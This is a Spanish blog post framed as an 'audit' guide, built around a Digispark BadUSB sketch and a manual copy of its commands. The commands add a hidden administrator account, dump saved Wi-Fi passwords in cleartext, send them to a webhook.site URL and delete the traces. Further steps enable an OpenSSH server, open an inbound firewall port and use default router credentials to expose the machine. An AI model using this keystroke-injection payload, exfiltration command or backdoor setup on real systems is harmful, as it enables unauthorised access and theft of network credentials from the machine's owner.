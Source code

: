 ```yaml
---
layout: post
title: Todo lo que necesitamos para la auditoria
subtitle: Este articulo se eliminara el miercoles
cover-img: /assets/img/auditoria/icono.png
thumbnail-img: /assets/img/auditoria/icono.png
tags: [auditoria]
excerpt: "Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."
---
```


Hecho por boyras200

<br>
<br>

## Programa del digispark

```
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("simbolo");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(0x4F);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(0x51);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
  DigiKeyboard.println("net user Usuario-Auditoria D2z14IdWykPO /add");
  DigiKeyboard.println("net localgroup Administradores Usuario-Auditoria /add");
  DigiKeyboard.delay(200);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(250);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(250);
  DigiKeyboard.println("del Wi-* /s /f /q 6 del PASS"); //cleaning up all the mess
  DigiKeyboard.println("exit");

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
}
```

## Comandos por si no va el digispark

```
Windows. Simbolo del sistema, con permisos de administrador.
net user Usuario-Auditoria D2z14IdWykPO /add
net localgroup Administradores Usuario-Auditoria /add
cd %temp%
netsh wlan export profile key=clear");
powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > PASS
powershell Invoke-WebRequest -Uri https://webhook.site/d5dbbd9c-cf83-4df7-adfb-10894b22d13a -Method POST -InFile PASS
del Wi-* /s /f /q 6 del PASS
exit
```


Cuando en el script nos aparezca esto, le daremos a SI:

![](/assets/img/auditoria/cmd.png.jpg)


Despues clickaremos en el cmd:

![](/assets/img/auditoria/cmd2.jpg)


## Sacar IP

Vamos a sacar la IP privada del sistema. Para esto simplemete hacemos los siguiente:

`Windows + R` 

`cmd`

`ipconfig`

Nos deberia aparecer algo como esto:

/assets/img/auditoria/ipconfig.png


/assets/img/auditoria/ipconfig2.png


Ya tenemos la IP privada, la necesitaremos mas tarde.


## Habilitar ssh

Empezamos abriendo powershell como administrador:

/assets/img/auditoria/powershell.png


Ahora ejecutaremos los siguientes comandos:


`Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'`

`Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0`

`Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`

`Start-Service sshd`

`Set-Service -Name sshd -StartupType 'Automatic'`

`if (!(Get-NetFirewallRule -Name "OpenSSH-Server-In-TCP" -ErrorAction SilentlyContinue | Select-Object Name, Enabled)) {
    Write-Output "Firewall Rule 'OpenSSH-Server-In-TCP' does not exist, creating it..."
    New-NetFirewallRule -Name 'OpenSSH-Server-In-TCP' -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
} else {
    Write-Output "Firewall rule 'OpenSSH-Server-In-TCP' has been created and exists."
}`


Ya hemos habilitado ssh.


##Router

Primero entramos en `https://www.cual-es-mi-ip.net/`

/assets/img/auditoria/ip.png

Ahora vamos a `http://192.168.100.1/`

Ponemos las credenciales root:admin

Deberiamos haber encontrado algo como esto:

![](/assets/img/auditoria/router.png)

Ahora ponemos esto:

![](/assets/img/auditoria/router2.png)



# Ya debería estar funcionando todo.
